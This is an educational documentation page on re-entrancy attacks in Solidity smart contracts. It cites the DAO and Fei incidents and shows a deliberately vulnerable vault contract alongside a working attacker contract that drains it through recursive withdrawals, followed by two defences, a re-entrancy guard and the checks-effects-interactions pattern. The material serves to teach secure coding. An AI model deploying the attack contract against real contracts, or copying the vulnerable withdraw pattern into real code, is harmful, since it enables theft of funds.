 ```yaml
---
displayed_sidebar: generalSidebar
keywords:
  - smart-contracts
  - security
  - vulnerabilities
  - reentrancy-attack
  - solidity
  - dao-hack
  - fei-protocol
  - prevention
  - checks-effects-interactions
  - reentrancy-guard
tags:
  - Reentrancy Attacks
  - Security
  - Smart Contracts
---
```


# Re-entrancy Attacks

Re-entrancy attacks are among the most common types of assaults on smart contracts, where attackers exploit contract vulnerabilities to recursively call the contract, enabling them to transfer assets out of the contract or mint a large number of tokens.

In 2016, the DAO contract fell victim to a reentrancy attack, leading to the theft of 3,600,000 ETH from the contract. This incident resulted in the Ethereum network splitting into two chains: ETH and ETC (Ethereum Classic).

In 2022, the algorithmic stablecoin project Fei was hit by a reentrancy attack, resulting in a theft of $80,000,000. More information can be found [here](https://rekt.news/fei-rari-rekt/).

Reentrancy attack may occur when a contract makes external calls before ensuring that its state is correctly updated. Attackers can exploit this by making the vulnerable contract invoke an attacker-controlled contract, which then re-invokes the original contract repeatedly. This repeated invocation can manipulate the contract's state before it's correctly updated, leading to potential loss of funds.

Consider a simplified `FinancialVault` contract that allows depositing and withdrawing ETH, analogous to a bank account:

```solidity
contract FinancialVault {
    mapping(address => uint256) public balances;

    function depositFunds() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds() external {
        uint256 fundsToWithdraw = balances[msg.sender];
        require(fundsToWithdraw > 0, "No funds available");
        
        (bool sent, ) = msg.sender.call{value: fundsToWithdraw}("");
        require(sent, "Failed to send funds");
        
        balances[msg.sender] = 0;
    }

    function getVaultBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

In this contract, the `withdrawFunds` method is vulnerable to re-entrancy attacks. An attacker can exploit this by using a contract designed to re-enter the `FinancialVault` contract during a withdrawal:

```solidity
contract AttackVault {
    FinancialVault public vault;

    constructor(FinancialVault _vault) {
        vault = _vault;
    }

    receive() external payable {
        if (address(vault).balance >= 1 ether) {
            vault.withdrawFunds();
        }
    }

    function initiateAttack() external payable {
        require(msg.value == 1 ether, "1 Ether required for the attack");
        vault.depositFunds{value: 1 ether}();
        vault.withdrawFunds();
    }

    function getContractBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## Defense Mechanisms

### Re-entrancy Guard

A re-entrancy guard is a simple yet effective strategy to prevent such attacks. It involves setting a flag when a function starts executing and resetting it upon completion. This ensures the function cannot be re-entered while it's still running. The OpenZeppelin library provides an implementation of this pattern. Here is an example of applying a re-entrancy guard to the `withdrawFunds` function:

```solidity
uint256 private _guardCounter = 1;

modifier nonReentrant() {
    require(_guardCounter == 1, "Reentrant call");
    _guardCounter++;
    _;
    _guardCounter--;
}

function withdrawFunds() external nonReentrant {
    uint256 fundsToWithdraw = balances[msg.sender];
    require(fundsToWithdraw > 0, "No funds available");
    
    (bool sent, ) = msg.sender.call{value: fundsToWithdraw}("");
    require(sent, "Failed to send funds");
    
    balances[msg.sender] = 0;
}
```

### Checks-Effects-Interactions Pattern

This pattern dictates that functions should first perform all necessary checks, update the contract's state, and then make any external calls. Adhering to this pattern ensures that all state changes are finalized before interacting with external contracts.

Learn more: [Checks Effects Interactions](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html)

Implementing this in the `withdrawFunds` function would involve updating the user's balance before attempting to send them their funds:

```solidity
function withdrawFunds() external {
    uint256 fundsToWithdraw = balances[msg.sender];
    require(fundsToWithdraw > 0, "No funds available");
    
    balances[msg.sender] = 0;
    
    (bool sent, ) = msg.sender.call{value: fundsToWithdraw}("");
    require(sent, "Failed to send funds");
}
```

By following these practices, smart contract developers can significantly reduce the risk of re-entrancy attacks and ensure the security of their contracts.
